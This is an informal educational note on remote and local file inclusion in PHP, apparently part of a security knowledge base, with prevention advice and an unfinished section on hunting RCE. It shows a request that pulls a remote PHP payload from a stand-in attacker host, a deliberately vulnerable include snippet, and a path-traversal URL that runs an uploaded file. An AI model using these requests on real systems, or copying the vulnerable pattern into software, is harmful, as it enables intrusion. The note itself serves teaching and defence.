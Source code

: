 Attacker could potentially do request to target machine looking something like this:
```
GET /?page=http://attacker.com/malicious.php?cmd=ls
Host: example.com
```

This server could potentially be vulnerable to also SSRFs and XSSs, because website can load informations about local system and private network. Attacker can also potentially force site to load malicious JavaScript file and force its user to clicking into it in order to perform reflected XSS.

**Local File Inclusion** on the other hand happen when applications include files in an unsafe way, but the inclusion of remote files is forbidden. In this case, attackers need to first upload a malicious file to the local machine, and then execute it by using local file inclusion. Let’s modify our previous example a bit. The following PHP file first gets the HTTP GET parameter page and then calls the PHP include function after concatenating page with a directory name containing the files users can load.

```
<?php 
// Some PHP code

$file = $ GET["page"]; 
include "lang/".$file;

// Some PHP code 
?>
```
Directory lang of the webpage contains website written in many languages. Users can enter urls like http://example.com/?page=pl-index.pl to see the website in polish language. This url addresses make the site load different pages.
If the application doesn't make any restrictions to user he can easily try to load his own page with this functionality. For example example.com allows user to send files. Now user can try to execute his own file by doing something like this:
 http://example.com/?page=../uploads/TurtleBB/malicious.php.

### **Prevention**
To prevent RCE you should avoid using user inputted data to code that is evaluated. Never trust files sent by user, applications or whatever. Never allow file inclusion from the user inputted data. If that isn’t possible, disallow the inclusion of remote files and create an allowlist of local files that your programs can include. You can also limit file uploads to certain safe file types and host uploaded files in a separate environment than the application’s source code

Avoid directly calling commands and use system interface API. Most programming languages contain default functionlities, which allows using system commands, but without risk of being injected.

Always apply restrictions to user inputted data.

Update your software, frameworks, dependencies. Many open-source tools, packages and components are implementing vulnerabilities. This phenomenon is also known as [[Software Supply Chain Attack]].

Additionally you can implement [[WAF]]

Always use principle of least privilege. Never give more access to application that they need to avoid bigger impact of small vulnerabilities.

### **Hunting down the RCE**
As almost always there are two types of RCE
**Blind RCE** and **classic RCE** also known as just **RCE**.
In BLIND RCEs code is executed but there is no response fed back into the attacker.
